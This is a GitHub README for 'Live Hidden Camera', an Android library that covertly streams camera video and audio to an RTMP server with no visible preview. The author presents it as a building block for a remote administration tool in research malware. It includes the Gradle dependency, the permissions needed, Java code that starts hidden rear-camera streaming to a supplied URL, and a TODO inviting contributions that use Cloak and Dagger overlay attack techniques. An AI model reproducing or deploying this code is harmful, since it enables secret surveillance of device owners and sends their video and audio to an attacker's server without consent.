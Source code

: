 
# Live Hidden Camera

Live Hidden Camera (LHC) is a library which record live video and audio from Android device without displaying a preview.
![Live Hidden Camera](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Live%20Hidden%20Camera.gif)

## Motivation
I'm working on a research based Android Malware and decided to create a multi function RAT (Remote Administration Tool). I was working on Live Streams which I've found some RTMP based open sources projects including:

 - https://github.com/begeekmyfriend/yasea
 - https://github.com/ant-media/LiveVideoBroadcaster
 - https://github.com/TakuSemba/RtmpPublisher
 - https://github.com/fyhertz/libstreaming
which, all have some kind of problems based on the requirements of a RAT. But the common one was that they all need an activity to include a `SurfaceView`.

Therefore, I've started searching. Finally, I could create **Live Hidden Camera** which only needs a **CONTEXT** for stream live video, by combining these two projects:

 1. https://github.com/begeekmyfriend/yasea
 2. https://github.com/kevalpatel2106/android-hidden-camera

# How to use
I've created a library to make it more usable. The only requirement is to add the library to your project and pass the Rtmp URL to it.

Additionally you should care about:

 1. Your application should have the following permissions in `Manifest.xml`:
 ```
<uses-permission android:name="android.permission.INTERNET" />  
<uses-permission android:name="android.permission.CAMERA" />  
<uses-permission android:name="android.permission.RECORD_AUDIO" />  
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW" />
```

 2. You should handle that the declared permissions are granted to your application

<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions1.png" width="250">
<img src="https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/Permissions2.png" width="250">

## Adding library
The usage of the library is straight. Just add the following library to the `gradle.build` file of your project.

`compile 'ir.mstajbakhsh.android:LiveHiddenCamera:0.1.1'`

- Update: In the previouls release, Main Activity with Launcher filter was in library, which made the application (that uses the library), had two icons. **In this release, the filter is commented in `Manifest`**.

## Creating RTMP server
Before using the library, you should have deployed an Rtmp server. I've ued [Ant Media Server](https://github.com/ant-media/Ant-Media-Server). There is a nice guide on Ant Media Server installation in [THIS LINK](https://github.com/ant-media/Ant-Media-Server/wiki/Getting-Started).

After starting the Ant Media Rtmp server, you should see something like this:
![Ant Media Server](https://github.com/mirsamantajbakhsh/LiveHiddenCamera/raw/master/ScreenShots/AntMediaServer.png)

## Sample Code
After adding the library to your project, do the following steps:

 1. Create a class which implements: `RtmpHandler.RtmpListener, SrsRecordHandler.SrsRecordListener, SrsEncodeHandler.SrsEncodeListener`
 2. Create two fields (one for publish and one for preview): 

    private SrsPublisher mPublisher;  
    private SrsCameraView mCameraView;

 3. Implement a function for starting the Live Hidden Camera:
 
```Java
    private void initHiddenCam(String rtmpURL) {  
    HiddenCameraLayout l = new HiddenCameraLayout(getApplicationContext(), new HiddenCameraLayout.PermissionHandler() {  
        @Override  
  public void onPermissionNotGrantedException(Exception ex) {  
            Log.d("HCL", "Ask user to grant permission.");  
            Log.e("HCL", ex.getMessage());  
        }  
    });  
  
    //start config  
  CameraConfig cameraConfig = new CameraConfig()  
            .getBuilder(MainActivity.this.getApplicationContext())  
            .setCameraFacing(CameraFacing.REAR_FACING_CAMERA)  
            .build();  
  
  
    mCameraView = l.initHiddenLayout(cameraConfig);  
  
    mPublisher = new SrsPublisher(mCameraView);  
    mPublisher.setEncodeHandler(new SrsEncodeHandler(this));  
    mPublisher.setRtmpHandler(new RtmpHandler(this));  
    mPublisher.setRecordHandler(new SrsRecordHandler(this));  
    mPublisher.setPreviewResolution(640, 360);  
    mPublisher.setOutputResolution(640, 360);  
    mPublisher.setVideoHDMode();  
    mPublisher.startPublish(rtmpURL);  
    mPublisher.startCamera();  
}
```

# Problems
## Green Screen
The main problem I currently facing, is the green screen. I've described the error in StackOverflow in https://stackoverflow.com/questions/56380851/getting-green-image-while-preview-hidden-live-video

If you have any suggestion about this problem, or any other idea, do not hesitate contacting me.

## Constant View
Because of the overlay of the Live Hidden Camera, no other apps can be clicked. The clicks are only accepted by the LHC. Check **TODO** section.

# TODO
There is a project called *Cloak and Dagger* which unraveled a very dangerous ability in Android. Any contribution in using the *Cloack and Dagger* in LHC is welcomed.

Check the *Cloak and Dagger* here:

 1. http://cloak-and-dagger.org
 2. https://medium.com/@targetpractice/cloak-and-dagger-malware-techniques-demystified-c4d8a035b94e
 
# Contact
You can reach me from my website: https://mstajbakhsh.ir/
